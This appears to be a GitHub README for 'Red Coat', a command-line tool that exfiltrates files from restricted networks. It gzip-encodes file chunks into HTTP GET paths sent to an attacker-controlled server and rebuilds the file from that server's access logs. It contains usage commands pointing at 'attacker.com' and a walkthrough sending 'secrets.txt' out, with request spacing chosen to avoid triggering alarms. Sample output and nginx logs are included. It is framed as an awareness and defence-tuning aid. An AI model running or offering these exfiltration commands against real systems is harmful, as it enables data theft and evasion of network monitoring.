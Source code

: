 # Red Coat

Red Coat is born to perform data exfiltration from those secured environments that usually block the data uploading to Internet. It has been created with the purpose to make IT professionals to be aware about data exfiltration and to tune network security solutions to make the protection of the environment more efficient.

```

@@@@@@@   @@@@@@@@  @@@@@@@    @@@@@@@   @@@@@@    @@@@@@   @@@@@@@  
@@@@@@@@  @@@@@@@@  @@@@@@@@  @@@@@@@@  @@@@@@@@  @@@@@@@@  @@@@@@@  
@@!  @@@  @@!       @@!  @@@  !@@       @@!  @@@  @@!  @@@    @@!    
!@!  @!@  !@!       !@!  @!@  !@!       !@!  @!@  !@!  @!@    !@!    
@!@!!@!   @!!!:!    @!@  !@!  !@!       @!@  !@!  @!@!@!@!    @!!    
!!@!@!    !!!!!:    !@!  !!!  !!!       !@!  !!!  !!!@!!!!    !!!    
!!: :!!   !!:       !!:  !!!  :!!       !!:  !!!  !!:  !!!    !!:    
:!:  !:!  :!:       :!:  !:!  :!:       :!:  !:!  :!:  !:!    :!:    
::   :::   :: ::::   :::: ::   ::: :::  ::::: ::  ::   :::     ::    
 :   : :  : :: ::   :: :  :    :: :: :   : :  :    :   : :     :  

Exfiltrate anything!

redcoat [-h] [-d] [-f] <file-path> [-r] <logfile> <ip-address> <datetime> <numreq> [-s] <server> [-t] <timeout>

Options:
-d <enc-path>                                     Specify the encoded file to decode.
-f <file-path>                                    Specify the file to exfiltrate.
-r <logfile> <ip-address> <datetime> <numreq>     Specify the path to logfile and the target ip address along the number of requests and the datetime to reconstruct the exfltrated file.
-s <server>                                       Specify the server where to send the file to exfiltrate.
-t <timeout>                                      Specify the number of seconds for each request.

Usage Examples:
redcoat 
redcoat -d encoded.txt
redcoat -f exfiltrate.zip -s https://attacker.com -t 10
redcoat -r /var/log/nginx/access.log 3.12.4.1 '17/Mar/2024:01:37:28 +0000' 10
```

## Usage

Red Coat reads file content as bytes and encode them as gzip and base64 to shrink data and send it to an external HTTP server. It can be also used to reconstruct the encoded data on the server side to retrieve the data inside the exfiltrated file.

The concept of the tool is to get file content as group of bytes, compressing and encoding them and sending an HTTP GET request to a target server controlled by the attacker. The attacker can retrieve this encoded information inside the access logs of its HTTP server and, by using victim client IP address, datetime and number of sent requests, can retrieve the exfiltrated decoded file content.

In particular, to reconstruct the exfiltrated file, Red Coat parses the access log file trying to detect the first HTTP GET request associated to the provided victim client IP address at a specific time, and retrieve the next HTTP GET requests (as much as the sent requests) from this victim client resulting as 404 Status Code.

## Test

Let's guess you control a server at 1.2.3.4 IP address, and you are inside a client machine with a file called `secrets.txt` to exfiltrate, containing the following data:
```
@@@@@@@   @@@@@@@@  @@@@@@@    @@@@@@@   @@@@@@    @@@@@@   @@@@@@@  
@@@@@@@@  @@@@@@@@  @@@@@@@@  @@@@@@@@  @@@@@@@@  @@@@@@@@  @@@@@@@  
@@!  @@@  @@!       @@!  @@@  !@@       @@!  @@@  @@!  @@@    @@!    
!@!  @!@  !@!       !@!  @!@  !@!       !@!  @!@  !@!  @!@    !@!    
@!@!!@!   @!!!:!    @!@  !@!  !@!       @!@  !@!  @!@!@!@!    @!!    
!!@!@!    !!!!!:    !@!  !!!  !!!       !@!  !!!  !!!@!!!!    !!!    
!!: :!!   !!:       !!:  !!!  :!!       !!:  !!!  !!:  !!!    !!:    
:!:  !:!  :!:       :!:  !:!  :!:       :!:  !:!  :!:  !:!    :!:    
::   :::   :: ::::   :::: ::   ::: :::  ::::: ::  ::   :::     ::    
 :   : :  : :: ::   :: :  :    :: :: :   : :  :    :   : :     :  
```

### Client side
Exfiltrate this file by running:
```
redcoat -f secrets.txt -s https://1.2.3.4 -t 3
```
Red Coat will split the exfiltration in different HTTP GET request each 3 seconds. The usage of `-t` argument allows to decrease the noise that could trigger an alarm on the client infrastructure side.

The output of the command appears like:
```
Number of GET requests to exfiltrate the file: 10

Exfiltrating file secrets.txt at 17/Mar/2024:19:21:35 +0000:

GET: https://hub.athenaos.org/H4sIAAAAAAAA/13JQQkAAAzDQCuREv+qBoON0r6ORneAHh/J/jIOUyj3K0UAAAA=
GET: https://hub.athenaos.org/H4sIAAAAAAAA/53GMQEAAAzDICtIiX9VO+agXNSjdRzPAg9iRQAAAA==
GET: https://hub.athenaos.org/H4sIAAAAAAAA/12LsQkAAAjDXrGf5P+rtA4V7BBCoKAqwBjbkSbjtbN8GjHLn8JFAAAA
GET: https://hub.athenaos.org/H4sIAAAAAAAA/4WJMQ0AAAyDrICT+le1rMfecREwQgy4Vvxb7f4AmEbHO0UAAAA=
GET: https://hub.athenaos.org/H4sIAAAAAAAA/1WJsQ0AMAzCXjFvdOL/q0rIFIGEZSwrBbJ6AyFD5T7XhZq1nQ8VEoaGRQAAAA==
GET: https://hub.athenaos.org/H4sIAAAAAAAA/2VJyQ0AAAxZhTX6sv9UpfEriZOUCYPBXMrgUsHbxB61BQFxANlFAAAA
GET: https://hub.athenaos.org/H4sIAAAAAAAA/1WLyQkAAAjDVmnWcP/BPAqKfYWUQChAEkXeEC39fHe0TQLGycIcRQAAAA==
GET: https://hub.athenaos.org/H4sIAAAAAAAA/4WJMQ0AAAyDrFAb+Be2rMfecREwQgy4Vvxb7f4A5cZZ60UAAAA=
GET: https://hub.athenaos.org/H4sIAAAAAAAA/0WLsQ0AAAjCXukd/f8woxJdCC1BAd3sEu6eZZzn/EeAAlXXGSZFAAAA
GET: https://hub.athenaos.org/H4sIAAAAAAAA/02IAQ0AAAjCqjwH/YMpqJuDAQcBajli0uadId53NLsA5cNvRkIAAAA=

Number of requests done: 10
```
Take a note of datetime **17/Mar/2024:19:21:35 +0000**, **Number of requests done: 10** and the **IP address** of the client machine (it can be guessed/retrieved directly on the log file of your server), let's guess it is **22.11.88.99**. This information is used to reconstruct the exfiltrated data.

Once all the requests are sent to the destination server, access to this server and check for access logs.

### Server side
Let's guess `/var/log/nginx/access.log` file appears like:
```
22.11.88.99 - - [17/Mar/2024:19:20:01 +0000] "GET /H4sIAAAAAAAA/wELAfT+KbZb2Dm/t9NZrqQIL9mk/KeoVvIC+3+i+2L3YHtPvR8Fqgx5WA0HZ4dFvHT2OQhEFdEfuj+aRbZqHE9mOEsiXdNon66lkQN/T77UvvHEdaklb1czVGoMYv0RSuBahjrPoeCojBu8Rj6NCKto2HygytlWkz9D9VWAoclf4HS8/VEbrEUXnHLeVHQoktnFvtqGNEKCaW4jaDDu0S1eZl4D8Xm/lOdvAQYAHXZkDQ1lbmRzdHJlYW0NZW5kb2JqDTIzMDMgMCBvYmoNPDwvRmlsdGVyL0ZsYXRlRGVjb2RlL0ZpcnN0IDM2L0xlbmd0aCAyMDAvTiA1L1R5cGUvT2JqU3RtPj5zdHJlYW0NIs6LkAsBAAA= HTTP/1.1" 404 153 "-" "-"
22.11.88.99 - - [17/Mar/2024:19:20:01 +0000] "GET /H4sIAAAAAAAA/wEmAdn+aN58jUsLwkAMhP9KjnoxG9+KCLWKFKmKWw8iHpYSH6jdZXct+u+tWvAiHpIZyMwXogYIIGpBr9jttyPqAHVe2oU6EWyJmkVotRsMMIgk7NXFMY5inGt7VRcMAxC1RksI0cbFsjwvljEQygC8vTHKWLlzkc8Yk4dhnNz9VHrlGVP1LWvzKQ+HxadQ4pjzU8phvJlhVGJnpUpMrMqcUZaz9PGBTq2+mXdX4noVvaZy9N64PuIpy9l5bWsHnVd/8P/wngIMAL1RV9MNZW5kc3RyZWFtDWVuZG9iag0yMzA0IDAgb2JqDTw8L0ZpbHRlci9GbGF0ZURlY29kZS9GaXJzdCA2L0xlbmd0aCAxMzYvTiAxL1R5cGUvT2JqU3RtPj5zdHJlYW0NSF/3TSYBAAA= HTTP/1.1" 404 153 "-" "-"
22.11.88.99 - - [17/Mar/2024:19:20:02 +0000] "GET /H4sIAAAAAAAA/8u4p9N7EACfrvL6BQAAAA== HTTP/1.1" 404 153 "-" "-"
22.11.88.99 - - [17/Mar/2024:19:20:02 +0000] "GET /H4sIAAAAAAAA/wHgAB//wjAQRH9lvyC729g0gRJoTy14kEbwUHrQmoMIqYTtwb83osxlHjxmmA9A0LbYAXNT6oR9KBhKzu9XxH7L95jxAuT9H2YqHi044IhTXGV2ThmuNdSVIqcrYGOVtRaMUa6xesEgeV/ldM0xCWjCsN/kO358pOfvpktpE+8/AgwAZEMn5A1lbmRzdHJlYW0NZW5kb2JqDTIzMDUgMCBvYmoNPDwvRmlsdGVyL0ZsYXRlRGVjb2RlL0ZpcnN0IDUvTGVuZ3RoIDIyNC9OIDEvVHlwZS9PYmpTdG0+PnN0cmVhbQ12jC5m4AAAAA== HTTP/1.1" 404 153 "-" "-"
22.11.88.99 - - [17/Mar/2024:19:20:02 +0000] "GET /H4sIAAAAAAAA/8u4VzLhLACg8YduBQAAAA== HTTP/1.1" 404 153 "-" "-"
22.11.88.99 - - [17/Mar/2024:19:20:02 +0000] "GET /H4sIAAAAAAAA/ztkINASr+r/QM13DQCWCFepCwAAAA== HTTP/1.1" 404 153 "-" "-"
22.11.88.99 - - [17/Mar/2024:19:20:02 +0000] "GET /H4sIAAAAAAAA/wFqAJX/UvC3J6E0uYlIrYsI2ki6Qn17t6311kNCvsxkmI2RQorlElZV5akWKprHfJHDKtDaN0c5YZ2XXsS8xyqayBOsH4jXUXXjK8KqzdKmz9oE/xq1H/B6L0bVrAicJZT61cqx9u9QYs2Vdw2llovYTrpqAAAA HTTP/1.1" 404 153 "-" "-"
5.4.3.2 - - [17/Mar/2024:19:20:07 +0000] "GET /existing-file HTTP/1.1" 200 438 "-" "pacman/6.1.0 (Linux x86_64) libalpm/14.0.0"
22.11.88.99 - - [17/Mar/2024:19:21:35 +0000] "GET /H4sIAAAAAAAA/13JQQkAAAzDQCuREv+qBoON0r6ORneAHh/J/jIOUyj3K0UAAAA= HTTP/1.1" 404 153 "-" "-"
22.11.88.99 - - [17/Mar/2024:19:21:39 +0000] "GET /H4sIAAAAAAAA/53GMQEAAAzDICtIiX9VO+agXNSjdRzPAg9iRQAAAA== HTTP/1.1" 404 153 "-" "-"
22.11.88.99 - - [17/Mar/2024:19:21:42 +0000] "GET /H4sIAAAAAAAA/12LsQkAAAjDXrGf5P+rtA4V7BBCoKAqwBjbkSbjtbN8GjHLn8JFAAAA HTTP/1.1" 404 153 "-" "-"
22.11.88.99 - - [17/Mar/2024:19:21:45 +0000] "GET /H4sIAAAAAAAA/4WJMQ0AAAyDrICT+le1rMfecREwQgy4Vvxb7f4AmEbHO0UAAAA= HTTP/1.1" 404 153 "-" "-"
22.11.88.99 - - [17/Mar/2024:19:21:48 +0000] "GET /H4sIAAAAAAAA/1WJsQ0AMAzCXjFvdOL/q0rIFIGEZSwrBbJ6AyFD5T7XhZq1nQ8VEoaGRQAAAA== HTTP/1.1" 404 153 "-" "-"
22.11.88.99 - - [17/Mar/2024:19:21:51 +0000] "GET /H4sIAAAAAAAA/2VJyQ0AAAxZhTX6sv9UpfEriZOUCYPBXMrgUsHbxB61BQFxANlFAAAA HTTP/1.1" 404 153 "-" "-"
3.6.9.1 - - [17/Mar/2024:19:21:51 +0000] "GET / HTTP/1.1" 200 378 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0"
22.11.88.99 - - [17/Mar/2024:19:21:55 +0000] "GET /H4sIAAAAAAAA/1WLyQkAAAjDVmnWcP/BPAqKfYWUQChAEkXeEC39fHe0TQLGycIcRQAAAA== HTTP/1.1" 404 153 "-" "-"
22.11.88.99 - - [17/Mar/2024:19:21:58 +0000] "GET /H4sIAAAAAAAA/4WJMQ0AAAyDrFAb+Be2rMfecREwQgy4Vvxb7f4A5cZZ60UAAAA= HTTP/1.1" 404 153 "-" "-"
22.11.88.99 - - [17/Mar/2024:19:22:01 +0000] "GET /H4sIAAAAAAAA/0WLsQ0AAAjCXukd/f8woxJdCC1BAd3sEu6eZZzn/EeAAlXXGSZFAAAA HTTP/1.1" 404 153 "-" "-"
22.11.88.99 - - [17/Mar/2024:19:22:04 +0000] "GET /H4sIAAAAAAAA/02IAQ0AAAjCqjwH/YMpqJuDAQcBajli0uadId53NLsA5cNvRkIAAAA= HTTP/1.1" 404 153 "-" "-"
```
On your server, use Red Coat to reconstruct the exfiltrated file by:
```
redcoat -r /var/log/nginx/access.log 22.11.88.99 '17/Mar/2024:19:21:35 +0000' 10
```
It will generate a file named `reconstructed_file` containing the exfiltrated file content:
```
@@@@@@@   @@@@@@@@  @@@@@@@    @@@@@@@   @@@@@@    @@@@@@   @@@@@@@  
@@@@@@@@  @@@@@@@@  @@@@@@@@  @@@@@@@@  @@@@@@@@  @@@@@@@@  @@@@@@@  
@@!  @@@  @@!       @@!  @@@  !@@       @@!  @@@  @@!  @@@    @@!    
!@!  @!@  !@!       !@!  @!@  !@!       !@!  @!@  !@!  @!@    !@!    
@!@!!@!   @!!!:!    @!@  !@!  !@!       @!@  !@!  @!@!@!@!    @!!    
!!@!@!    !!!!!:    !@!  !!!  !!!       !@!  !!!  !!!@!!!!    !!!    
!!: :!!   !!:       !!:  !!!  :!!       !!:  !!!  !!:  !!!    !!:    
:!:  !:!  :!:       :!:  !:!  :!:       :!:  !:!  :!:  !:!    :!:    
::   :::   :: ::::   :::: ::   ::: :::  ::::: ::  ::   :::     ::    
 :   : :  : :: ::   :: :  :    :: :: :   : :  :    :   : :     :  
 ```